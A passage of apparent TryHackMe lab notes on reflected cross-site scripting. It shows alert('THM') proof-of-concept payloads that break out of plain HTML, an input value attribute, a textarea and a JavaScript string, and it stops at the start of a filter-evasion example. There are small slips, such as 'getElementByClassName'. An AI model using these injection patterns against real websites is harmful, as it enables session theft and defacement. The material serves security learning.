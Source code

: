 2. Once a name has been entered it will be presented on a line below.
3. View the Page Source to see the name reflected in the code:
   * `<div class="text-center">`
   * `<h2>Hello, Andy</h2>`
   * `</div>`
5. Instead of entering a name instead try to enter the following JavaScript Payload: `<script>alert('THM');</script>`.
6. Now when clicking the enter button, an alert will popup with the string `THM` and the page source will look like the following:
   * `<div class="text-center">`
   * `<h2>Hello, <script>alert('THM');</script></h2>`
   * `</div>`
### Payload Example 2 - Escape an Input Tag
* Presented with a form asking to enter a name.
* Name is being reflected in an HTML `input` tag when clicking enter
* The name is reflected inside the `value` attribute of the `input` tag:
  * `<div class="test-center">`
  * `<h2>Hello, <input value="Andy"></h2>`
  * `</div>`
* The previous JavaScript payload cannot be run from inside the `input` tag.
* Need to escape the `input` tag so the payload can run properly.
  * Do this with the `"><script>alert('THM');</script>` payload.
  * The important part of the payload is the `">` which closes the `value` parameter and then closes the `input` tag.
  * This now closes the `input` tag properly and allows the JavaScript payload to run:
    * `<div class="test-center">`
    * `<h2>Hello, <input value=""><script>alert('THM');</script></h2>`
    * `</div>`
* Now when clicking the enter button, an alert will popup with the string `THM`.
### Payload Example 3 - Escape a Textarea Tag
* Presented with a form asking to enter a name.
* This time the name gets reflected inside an HTML `textarea` tag.
  * `<div class="test-center">`
  * `<h2>Hello, <textarea>"Andy"</textarea></h2>`
  * `</div>`
* Need to escape the `textarea` tag differently than the `input` one:
  * `<div class="test-center">`
  * `<h2>Hello, <textarea></textarea><script>alert('THM');</script></textarea></h2>`
  * `</div>`
* The important part of the above payload is `</textarea>`, which causes the `textarea` element to close so the script will run.
* Now when clicking the enter button, an alert will popup with the string `THM`.
### Payload Example 4 - Escape JavaScript code
* Presented with a form asking to enter a name.
* Appears similar to example 1.
* Viewing the page source, name gets reflected in some JavaScript code:
  * `<script>`
  * `document.getElementByClassName('name')[0].innerHTML='Andy';`
  * `</script>`
* Need to escape the existing JavaScript command to run payload:
  * `<script>`
  * `document.getElementByClassName('name')[0].innerHTML='';alert('THM');//'`
  * `</script>` 
    * The `'` closes the field specifying the name.
    * Then `;` signifies the end of the current command.
    * The `//` at the end makes anything after it a comment rather than executable code.
* Now when clicking the enter button, an alert will popup with the string `THM`.
### Payload Example 5 - Escape a Filtered Input Box
* Presented with a form asking to enter a name.
* Appears similar to example 1.
  * However, `<script>alert('THM');</script>` does not work.